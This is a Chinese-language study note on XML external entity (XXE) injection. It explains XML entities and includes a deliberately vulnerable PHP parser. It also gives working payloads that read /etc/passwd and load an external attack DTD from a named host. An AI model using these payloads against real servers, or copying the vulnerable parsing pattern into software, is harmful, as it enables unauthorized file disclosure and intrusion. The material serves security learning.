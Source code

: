 # XML实体注入漏洞攻与防 笔记


# 参考：

继续看松牛的文章学习新姿势。

[XML实体注入漏洞攻与防
](http://mp.weixin.qq.com/s/0eyuG3zEWluAD9v7qvw8PQ)

---

# XML基础

XML是一种用于标记电子文件使其具有结构性的**标记语言**，可以用来标记数据、定义数据类型，是一种允许用户**对自己的标记语言进行定义的源语言**。

XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素。


当从打印输出读取或以电子形式处理文档时，元素能够帮助更好地理解文档。**元素的描述性越强，文档各部分越容易识别**。自从出现标记至今，带有标记的内容就有一个优势，即在计算机系统缺失时，仍然可以通过标记理解打印出来数据。

> xml跟json格式的数据一样，都是便于传输的数据的格式。相似之处在于json键值对对应得很明确而xml每个数据都有标签标记着。

# XML实体注入基础

简单了解XML以后，我们知道要在XML中使用**特殊字符**，需要使用**实体字符**，也可以将一些可能多次会用到的短语(比如公司名称)设置为实体，然后就可以在内容中使用。

如下就声明了一个名为coname值为QiHoo 360的实体。
`<!DOCTYPE UserData [ <!ENTITY coname "QiHoo 360"> ]>`

要在XML中使用实体，使用`&coname;`即可。


## 危害：
当允许引用外部实体时，通过构造恶意内容，可导致

- 读取任意文件
- 执行系统命令
- 探测内网端口
- 攻击内网网站

等危害。

## 简单的漏洞环境

```
<?php


$xml = file_get_contents("php://input");
$data = simplexml_load_string($xml);

foreach ($data as $key => $value){
    echo "您的" . translate($key)."是".$value."<br>";
}

function translate($str){
    switch ($str){
        case "name":
            return "名字";
        case "wechat":
            return "微信";
        case "public_wechat":
            return "微信公众号";
        case "website":
            return "网站";
    }
}

```

假设这里我们希望用户输入的是：


```
<?xml version="1.0" encoding="utf-8" ?>
<user>
	<name>Jerry</name>
	<wechat>tom</wechat>
	<public_wechat>haha</public_wechat>
	<website>www.xxx.com</website>
</user>
```

然后就可以返回如下页面：

![](https://ws4.sinaimg.cn/large/006tKfTcgy1fia0by5npzj30qq0o6gp3.jpg)


# XML实体注入漏洞的几种姿势
方法1：

`<!DOCTYPE a [ <!ENTITY b SYSTEM "file:///etc/passwd"> ]>`

方法2：

`<!DOCTYPE a [ <!ENTITY %d SYSTEM "http://www.hackersb.cn/attack.dtd"> %d; ]>`


方法3：
`<!DOCTYPE a SYSTEM "http://www.hackersb.cn/attack.dtd">`


其中attack.dtd的内容为：

`<!ENTITY b SYSTEM "file:///etc/passwd">`

## 读取本地任意文件
利用xml实体注入我们可以读取本地任意文件。

读取任意文件的思路大概就是**引入一个实体**，**实体内容为本地文件**。

构造payload如下：

```
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE a [ <!ENTITY b SYSTEM "file:///etc/passwd"> ]>
<user>
	<name>Jerry</name>
	<wechat>tom</wechat>
	<public_wechat>haha</public_wechat>
	<website>www.xxx.com</website>
</user>

```

